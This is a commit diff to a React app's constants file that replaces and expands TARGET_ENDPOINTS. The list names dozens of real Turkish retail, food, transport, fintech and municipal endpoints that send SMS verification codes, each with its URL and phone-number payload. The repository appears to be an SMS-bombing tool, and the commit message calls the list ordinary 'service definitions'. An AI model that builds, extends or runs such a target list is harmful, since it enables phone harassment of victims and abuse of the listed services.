

Before and after one commit to ilkayturna/Turna, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 540-1340 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update TARGET_ENDPOINTS with new service definitions
Removed several outdated service definitions and added new ones for various brands, including fashion and food services.

```diff
--- a/constants.ts
+++ b/constants.ts
@@ -1,68 +1,462 @@
 import { ServiceDefinition } from './types';
 
 export const TARGET_ENDPOINTS: ServiceDefinition[] = [
-  // --- GİYİM DEVLERİ ---
-  { id: 'lc_waikiki', name: 'LC Waikiki', url: 'https://api.lcwaikiki.com/api/User/SendOtp', method: 'POST', payloadInfo: '{"PhoneNumber": "..."}' },
-  { id: 'defacto', name: 'DeFacto', url: 'https://api.defacto.com.tr/Authentication/SendOtp', method: 'POST', payloadInfo: '{"MobilePhone": "..."}' },
-  { id: 'koton', name: 'Koton', url: 'https://www.koton.com/users/register/', method: 'POST', payloadInfo: '{"mobile": "..."}' },
-  { id: 'mavi', name: 'Mavi', url: 'https://global-api.mavi.com/api/v1/users/otp', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'boyner', name: 'Boyner', url: 'https://mobile-api.boyner.com.tr/api/v1/auth/register/otp', method: 'POST', payloadInfo: '{"gsm": "..."}' },
-  { id: 'penti', name: 'Penti', url: 'https://api.penti.com/api/v1/users/login/otp', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'flo', name: 'FLO', url: 'https://api.flo.com.tr/v1/user/login/otp', method: 'POST', payloadInfo: '{"mobile": "..."}' },
-  { id: 'in_street', name: 'In Street', url: 'https://api.instreet.com.tr/v1/auth/sms', method: 'POST', payloadInfo: '{"mobile": "..."}' },
-  { id: 'korayspor', name: 'Korayspor', url: 'https://api.korayspor.com/auth/login', method: 'POST', payloadInfo: '{"phone": "..."}' },
+  // --- GİYİM & MODA ---
+  {
+    id: 'kahve_dunyasi',
+    name: 'Kahve Dünyası',
+    url: 'https://api.kahvedunyasi.com/api/v1/auth/account/register/phone-number',
+    method: 'POST',
+    payloadInfo: '{"countryCode": "90", "phoneNumber": "..."}'
+  },
+  {
+    id: 'koton',
+    name: 'Koton',
+    url: 'https://www.koton.com/api/v2/users/register',
+    method: 'POST',
+    payloadInfo: '{"mobile": "...", "firstName": "...", "lastName": "...", "email": "...", "password": "..."}'
+  },
+  {
+    id: 'penti',
+    name: 'Penti',
+    url: 'https://api.penti.com/api/v1/users/login/otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'english_home',
+    name: 'English Home',
+    url: 'https://www.englishhome.com/api/member/sendOtp',
+    method: 'POST',
+    payloadInfo: '{"Phone": "...", "XID": ""}'
+  },
+  {
+    id: 'jimmykey',
+    name: 'Jimmy Key',
+    url: 'https://www.jimmykey.com/api/member/sendOtp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'alixavien',
+    name: 'Alix Avien',
+    url: 'https://www.alixavien.com.tr/api/member/sendOtp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'ayyildiz',
+    name: 'Ayyıldız',
+    url: 'https://www.ayyildiz.com.tr/api/member/sendOtp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
 
-  // --- MARKET & EV ---
-  { id: 'migros_money', name: 'Migros Money', url: 'https://www.money.com.tr/Account/ValidateAndSendOTP', method: 'POST', payloadInfo: 'Form: gsm=...' },
-  { id: 'file_market', name: 'File Market', url: 'https://api.filemarket.com.tr/v1/otp/send', method: 'POST', payloadInfo: '{"mobilePhoneNumber": "90..."}' },
-  { id: 'bim_market', name: 'Bim Market', url: 'https://bim.veesk.net/service/v1.0/account/login', method: 'POST', payloadInfo: '{"msisdn": "90..."}' },
-  { id: 'english_home', name: 'English Home', url: 'https://www.englishhome.com/api/member/sendOtp', method: 'POST', payloadInfo: '{"Phone": "...", "Source": "WEB"}' },
-  { id: 'evidea', name: 'Evidea', url: 'https://www.evidea.com/users/register/', method: 'POST', payloadInfo: 'Multipart' },
-  { id: 'wmf', name: 'WMF', url: 'https://www.wmf.com.tr/users/register/', method: 'POST', payloadInfo: 'Multipart' },
-  { id: 'metro_market', name: 'Metro Market', url: 'https://mobile.metro-tr.com/api/mobileAuth/validateSmsSend', method: 'POST', payloadInfo: '{"methodType": "2", "mobilePhoneNumber": "..."}' },
-  { id: 'hayat_su', name: 'Hayat Su', url: 'https://api.hayatsu.com.tr/api/SignUp/SendOtp', method: 'POST', payloadInfo: '{"mobilePhoneNumber": "..."}' },
+  // --- MARKET & EV EŞYASI ---
+  {
+    id: 'migros',
+    name: 'Migros',
+    url: 'https://rest.migros.com.tr/sanalmarket/users/register/otp',
+    method: 'POST',
+    payloadInfo: '{"email": "...", "phoneNumber": "..."}'
+  },
+  {
+    id: 'file_market',
+    name: 'File Market',
+    url: 'https://api.filemarket.com.tr/v1/otp/send',
+    method: 'POST',
+    payloadInfo: '{"mobilePhoneNumber": "90..."}'
+  },
+  {
+    id: 'bim',
+    name: 'Bim',
+    url: 'https://bim.veesk.net/service/v1.0/account/login',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'metro_market',
+    name: 'Metro Market',
+    url: 'https://feature.metro-tr.com/api/mobileAuth/validateSmsSend',
+    method: 'POST',
+    payloadInfo: '{"methodType": "2", "mobilePhoneNumber": "+90..."}'
+  },
+  {
+    id: 'evidea',
+    name: 'Evidea',
+    url: 'https://www.evidea.com/users/register/',
+    method: 'POST',
+    payloadInfo: 'Multipart form: phone, first_name, last_name, email, password'
+  },
+  {
+    id: 'wmf',
+    name: 'WMF',
+    url: 'https://www.wmf.com.tr/users/register/',
+    method: 'POST',
+    payloadInfo: 'Form: phone, first_name, last_name, email, password, date_of_birth'
+  },
+  {
+    id: 'macrocenter',
+    name: 'Macrocenter',
+    url: 'https://www.macrocenter.com.tr/api/member/sendOtp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'joker',
+    name: 'Joker',
+    url: 'https://api.joker.com.tr/api/register',
+    method: 'POST',
+    payloadInfo: '{"phoneNumber": "0...", "firstName": "...", "lastName": "...", "email": "...", "password": "..."}'
+  },
+  {
+    id: 'happy',
+    name: 'Happy',
+    url: 'https://www.happy.com.tr/index.php?route=account/register/verifyPhone',
+    method: 'POST',
+    payloadInfo: '{"telephone": "..."}'
+  },
+  {
+    id: 'uysal_market',
+    name: 'Uysal Market',
+    url: 'https://api.uysalmarket.com.tr/api/mobile-users/send-register-sms',
+    method: 'POST',
+    payloadInfo: '{"phone_number": "..."}'
+  },
+  {
+    id: 'toptan_teslim',
+    name: 'Toptan Teslim',
+    url: 'https://toptanteslim.com/Services/V2/MobilServis.aspx',
+    method: 'POST',
+    payloadInfo: '{"TELEFON": "...", "ISLEM": "KayitOl"}'
+  },
+  {
+    id: 'hayat_su',
+    name: 'Hayat Su',
+    url: 'https://api.hayatsu.com.tr/api/SignUp/SendOtp',
+    method: 'POST',
+    payloadInfo: '{"mobilePhoneNumber": "...", "actionType": "register"}'
+  },
+  {
+    id: 'vakif_tasdelen',
+    name: 'Vakıf Taşdelen Su',
+    url: 'https://bayi.hamidiye.istanbul:3400/hamidiyeMobile/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "...", "isGuest": false}'
+  },
+  {
+    id: 'hamidiye',
+    name: 'Hamidiye',
+    url: 'https://bayi.hamidiye.istanbul:3400/hamidiyeMobile/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "...", "isGuest": false}'
+  },
+  {
+    id: 'tasdelen',
+    name: 'Taşdelen Su',
+    url: 'https://vakiftasdelensu.com/api/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'yilmaz_ticaret',
+    name: 'Yılmaz Ticaret',
+    url: 'http://www.yilmazticaret.net/restapi2/register/',
+    method: 'POST',
+    payloadInfo: '{"telefon": "0 ..."}'
+  },
 
   // --- YEMEK & İÇECEK ---
-  { id: 'tikla_gelsin', name: 'Tikla Gelsin', url: 'https://svc.apps.tiklagelsin.com/user/graphql', method: 'POST', payloadInfo: 'GraphQL' },
-  { id: 'kahve_dunyasi', name: 'Kahve Dunyasi', url: 'https://api.kahvedunyasi.com/api/v1/auth/account/register/phone-number', method: 'POST', payloadInfo: '{"countryCode": "90", "phoneNumber": "..."}' },
-  { id: 'starbucks', name: 'Starbucks', url: 'https://api.starbucks.com.tr/auth/register/otp', method: 'POST', payloadInfo: '{"mobile": "..."}' },
-  { id: 'burger_king', name: 'Burger King', url: 'https://api.burgerking.com.tr/auth/login', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'popeyes', name: 'Popeyes', url: 'https://api.popeyes.com.tr/auth/otp', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'arbys', name: 'Arbys', url: 'https://api.arbys.com.tr/auth/login', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'usta_donerci', name: 'Usta Donerci', url: 'https://api.ustadonerci.com/auth/otp', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'dominos', name: 'Dominos', url: 'https://frontend.dominos.com.tr/api/customer/sendOtpCode', method: 'POST', payloadInfo: '{"mobilePhone": "..."}' },
-  { id: 'little_caesars', name: 'Little Caesars', url: 'https://api.littlecaesars.com.tr/api/web/Member/Register', method: 'POST', payloadInfo: '{"Phone": "05...", "NameSurname": "..."}' },
-  { id: 'pasaport_pizza', name: 'Pasaport Pizza', url: 'https://api.pasaportpizza.com/user/login', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'baydoner', name: 'Baydoner', url: 'https://crmmobil.baydoner.com:7004/Api/Customers/AddCustomerTemp', method: 'POST', payloadInfo: '{"Gsm": "..."}' },
-  { id: 'kofteci_yusuf', name: 'Kofteci Yusuf', url: 'https://gateway.poskofteciyusuf.com:1283/auth/auth/smskodugonder', method: 'POST', payloadInfo: '{"Telefon": "..."}' },
-  { id: 'komagene', name: 'Komagene', url: 'https://gateway.komagene.com.tr/auth/auth/smskodugonder', method: 'POST', payloadInfo: '{"Telefon": "..."}' },
-  { id: 'coffy', name: 'Coffy', url: 'https://user-api-gw.coffy.com.tr/user/signup', method: 'POST', payloadInfo: '{"phoneNumber": "..."}' },
+  {
+    id: 'tikla_gelsin',
+    name: 'Tıkla Gelsin',
+    url: 'https://svc.apps.tiklagelsin.com/user/graphql',
+    method: 'POST',
+    payloadInfo: 'GraphQL mutation'
+  },
+  {
+    id: 'istegelsin',
+    name: 'İste Gelsin',
+    url: 'https://istegelsin.com/api/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'starbucks',
+    name: 'Starbucks',
+    url: 'https://auth.sbuxtr.com/signUp',
+    method: 'POST',
+    payloadInfo: '{"phoneNumber": "...", "email": "...", "firstName": "...", "lastName": "...", "password": "..."}'
+  },
+  {
+    id: 'dominos',
+    name: 'Dominos',
+    url: 'https://frontend.dominos.com.tr/api/customer/sendOtpCode',
+    method: 'POST',
+    payloadInfo: '{"mobilePhone": "...", "email": "...", "isSure": false}'
+  },
+  {
+    id: 'little_caesars',
+    name: 'Little Caesars',
+    url: 'https://api.littlecaesars.com.tr/api/web/Member/Register',
+    method: 'POST',
+    payloadInfo: '{"Phone": "05...", "NameSurname": "..."}'
+  },
+  {
+    id: 'baydoner',
+    name: 'Baydöner',
+    url: 'https://crmmobil.baydoner.com:7004/Api/Customers/AddCustomerTemp',
+    method: 'POST',
+    payloadInfo: '{"PhoneNumber": "...", "Email": "...", "Name": "...", "Surname": "..."}'
+  },
+  {
+    id: 'kofteci_yusuf',
+    name: 'Köfteci Yusuf',
+    url: 'https://gateway.poskofteciyusuf.com:1283/auth/auth/smskodugonder',
+    method: 'POST',
+    payloadInfo: '{"Telefon": "..."}'
+  },
+  {
+    id: 'komagene',
+    name: 'Komagene',
+    url: 'https://gateway.komagene.com.tr/auth/auth/smskodugonder',
+    method: 'POST',
+    payloadInfo: '{"Telefon": "...", "FirmaId": "32"}'
+  },
+  {
+    id: 'coffy',
+    name: 'Coffy',
+    url: 'https://user-api-gw.coffy.com.tr/user/signup',
+    method: 'POST',
+    payloadInfo: '{"phoneNumber": "..."}'
+  },
+  {
+    id: 'kuryem_gelsin',
+    name: 'Kuryem Gelsin',
+    url: 'https://api.kuryemgelsin.com/tr/api/users/registerMessage/',
+    method: 'POST',
+    payloadInfo: '{"phoneNumber": "...", "phone_country_code": "+90"}'
+  },
+  {
+    id: 'pidem',
+    name: 'Pidem',
+    url: 'https://api.pidem.com.tr/api/v1/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'frink',
+    name: 'Frink',
+    url: 'https://api.frink.com.tr/api/v1/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'orwi',
+    name: 'Orwi',
+    url: 'https://api.orwi.app/api/v1/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'tazi',
+    name: 'Tazi',
+    url: 'https://tazi.tech/api/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'bisu',
+    name: 'Bisu',
+    url: 'https://bisu.com.tr/api/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'bodrum_belediye',
+    name: 'Bodrum Belediye',
+    url: 'https://bodrum.bel.tr/api/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
 
   // --- ULAŞIM & KARGO ---
-  { id: 'marti', name: 'Marti', url: 'https://api.marti.tech/api/v1/authentication/start', method: 'POST', payloadInfo: '{"mobile_number": "..."}' },
-  { id: 'binbin', name: 'BinBin', url: 'https://api.binbin.tech/auth/login', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'yurtici_kargo', name: 'Yurtici Kargo', url: 'https://api.yurticikargo.com/auth/login', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'aras_kargo', name: 'Aras Kargo', url: 'https://customer.araskargo.com.tr/auth/otp', method: 'POST', payloadInfo: '{"msisdn": "90..."}' },
-  { id: 'mng_kargo', name: 'MNG Kargo', url: 'https://api.mngkargo.com.tr/bireysel/auth', method: 'POST', payloadInfo: '{"tel": "..."}' },
-  { id: 'surat_kargo', name: 'Surat Kargo', url: 'https://api.suratkargo.com.tr/auth/login', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'ido', name: 'IDO', url: 'https://api.ido.com.tr/idows/v2/register', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'kamil_koc', name: 'Kamil Koc', url: 'https://api.kamilkoc.com.tr/auth/otp', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'pamukkale', name: 'Pamukkale', url: 'https://api.pamukkale.com.tr/user/login', method: 'POST', payloadInfo: '{"mobile": "..."}' },
-  { id: 'metro_turizm', name: 'Metro Turizm', url: 'https://api.metroturizm.com.tr/auth/sms', method: 'POST', payloadInfo: '{"phone": "..."}' },
+  {
+    id: 'marti',
+    name: 'Martı',
+    url: 'https://api.marti.tech/api/v1/authentication/start',
+    method: 'POST',
+    payloadInfo: '{"mobile_number": "..."}'
+  },
+  {
+    id: 'ido',
+    name: 'İDO',
+    url: 'https://api.ido.com.tr/idows/v2/register',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'hey_scooter',
+    name: 'Hey Scooter',
+    url: 'https://heyscooter.com.tr/api/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'tasimacim',
+    name: 'Taşımacım',
+    url: 'https://server.tasimacim.com/api/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+
+  // --- DİJİTAL HİZMETLER ---
+  {
+    id: 'kim_gb_ister',
+    name: 'Kim GB İster',
+    url: 'https://3uptzlakwi.execute-api.eu-west-1.amazonaws.com/api/auth/send-otp',
+    method: 'POST',
+    payloadInfo: '{"msisdn": "90..."}'
+  },
+  {
+    id: '345_dijital',
+    name: '345 Dijital',
+    url: 'https://api.345dijital.com/api/users/register',
+    method: 'POST',
+    payloadInfo: '{"phoneNumber": "+90..."}'
+  },
+  {
+    id: 'beefull',
+    name: 'Beefull',
+    url: 'https://app.beefull.io/api/inavitas-access-management/sms-login',
+    method: 'POST',
+    payloadInfo: '{"phoneCode": "90", "phoneNumber": "...", "tenant": "beefull"}'
+  },
+  {
+    id: 'naosstars',
+    name: 'Naosstars',
+    url: 'https://api.naosstars.com/api/smsSend',
+    method: 'POST',
+    payloadInfo: '{"telephone": "+90..."}'
+  },
+  {
+    id: 'akasya_avm',
+    name: 'Akasya AVM',
+    url: 'https://akasya-admin.poilabs.com/v1/tr/sms',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'akbati',
+    name: 'Akbati',
+    url: 'https://akbati-admin.poilabs.com/v1/tr/sms',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'yapp',
+    name: 'Yapp',
+    url: 'https://yapp.com.tr/api/mobile/v1/register',
+    method: 'POST',
+    payloadInfo: '{"phone_number": "...", "email": "...", "firstname": "...", "lastname": "..."}'
+  },
+  {
+    id: 'suiste',
+    name: 'Suiste',
+    url: 'https://suiste.com/api/auth/code',
+    method: 'POST',
+    payloadInfo: '{"gsm": "...", "action": "register"}'
+  },
+  {
+    id: 'porty',
+    name: 'Porty',
+    url: 'https://panel.porty.tech/api.php',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'clickme_live',
+    name: 'ClickMe Live',
+    url: 'https://mobile-gateway.clickmelive.com/api/v2/authorization/code',
+    method: 'POST',
+    payloadInfo: '{"phone": "..."}'
+  },
+  {
+    id: 'qumpara',
+    name: 'Qumpara',
+    url: 'https://tr-api.fisicek.com/v1.3/auth/getOTP',
+    method: 'POST',
+    payloadInfo: '{"msisdn": "+90..."}'
+  },
+  {
+    id: 'paybol',
+    name: 'Paybol',
+    url: 'https://pyb-mobileapi.walletgate.io/v1/Account/RegisterPersonalAccountSendOtpSms',
+    method: 'POST',
+    payloadInfo: '{"phone_number": "90..."}'
+  },
+  {
+    id: 'yuffi',
+    name: 'Yuffi',
+    url: 'https://api.yuffi.co/api/parent/login/user',
+    method: 'POST',
+    payloadInfo: '{"phone": "...", "kvkk": true}'
+  },
+  {
+    id: 'hizliecza',
+    name: 'Hızlı Ecza',
+    url: 'https://hizlieczaprodapi.hizliecza.net/mobil/account/sendOTP',
+    method: 'POST',
+    payloadInfo: '{"otpOperationType": 2, "phoneNumber": "+90..."}'
+  },
+  {
+    id: 'ipragaz',
+    name: 'İpragaz',
+    url: 'https://ipapp.ipragaz.com.tr/ipragazmobile/v2/ipragaz-b2c/ipragaz-customer/mobile-register-otp',
+    method: 'POST',
+    payloadInfo: '{"phoneNumber": "...", "name": "..."}'
+  },
+
+  // --- BELEDİYE & KAMU ---
+  {
+    id: 'fatih_belediye',
+    name: 'Fatih Belediye',
+    url: 'https://ebelediye.fatih.bel.tr/Sicil/KisiUyelikKaydet',
+    method: 'POST',
+    payloadInfo: 'Multipart form: SahisUyelik.CepTelefonu'
+  },
+  {
+    id: 'sancaktepe_belediye',
+    name: 'Sancaktepe Belediye',
+    url: 'https://e-belediye.sancaktepe.bel.tr/Sicil/KisiUyelikKaydet',
+    method: 'POST',
+    payloadInfo: 'Multipart form: SahisUyelik.CepTelefonu'
+  },
+  {
+    id: 'bayrampasa_belediye',
+    name: 'Bayrampaşa Belediye',
+    url: 'https://ebelediye.bayrampasa.bel.tr/Sicil/KisiUyelikKaydet',
+    method: 'POST',
+    payloadInfo: 'Multipart form: SahisUyelik.CepTelefonu'
+  },
+
+  // --- EĞLENCE & MEDYA ---
+  {
+    id: 'cineverse',
+    name: 'Cineverse',
+    url: 'https://api.paribucineverse.com/auth/otp',
+    method: 'POST',
+    payloadInfo: '{"mobile": "..."}'
+  },
 
   // --- DİĞER ---
-  { id: 'yapp', name: 'Yapp', url: 'https://yapp.com.tr/api/mobile/v1/register', method: 'POST', payloadInfo: '{"phone_number": "..."}' },
-  { id: 'suiste', name: 'Suiste', url: 'https://suiste.com/api/auth/code', method: 'POST', payloadInfo: '{"gsm": "..."}' },
-  { id: 'porty', name: 'Porty', url: 'https://panel.porty.tech/api.php', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'kim_gb_ister', name: 'Kim GB Ister', url: 'https://3uptzlakwi.execute-api.eu-west-1.amazonaws.com/api/auth/send-otp', method: 'POST', payloadInfo: '{"msisdn": "90..."}' },
-  { id: '345_dijital', name: '345 Dijital', url: 'https://api.345dijital.com/api/users/register', method: 'POST', payloadInfo: '{"phoneNumber": "+90..."}' },
-  { id: 'beefull', name: 'Beefull', url: 'https://app.beefull.io/api/inavitas-access-management/sms-login', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'naosstars', name: 'Naosstars', url: 'https://api.naosstars.com/api/smsSend', method: 'POST', payloadInfo: '{"telephone": "+90..."}' },
-  { id: 'akasya_avm', name: 'Akasya AVM', url: 'https://akasyaapi.poilabs.com/v1/en/sms', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'dr_store', name: 'D&R', url: 'https://api.dr.com.tr/auth/login/otp', method: 'POST', payloadInfo: '{"mobile": "..."}' },
-  { id: 'kitapyurdu', name: 'Kitapyurdu', url: 'https://api.kitapyurdu.com/auth/sms', method: 'POST', payloadInfo: '{"mobile": "..."}' },
-  { id: 'bkm_kitap', name: 'BKM Kitap', url: 'https://api.bkmkitap.com/auth/login', method: 'POST', payloadInfo: '{"phone": "..."}' },
-  { id: 'cineverse', name: 'Cineverse', url: 'https://api.paribucineverse.com/auth/otp', method: 'POST', payloadInfo: '{"mobile": "..."}' }
+  {
+    id: 'money',
+    name: 'Money (Migros)',
+    url: 'https://www.money.com.tr/Account/ValidateAndSendOTP',
+    method: 'POST',
+    payloadInfo: 'Form: phone'
+  },
 ];
 
 export const INITIAL_STATS = {
```
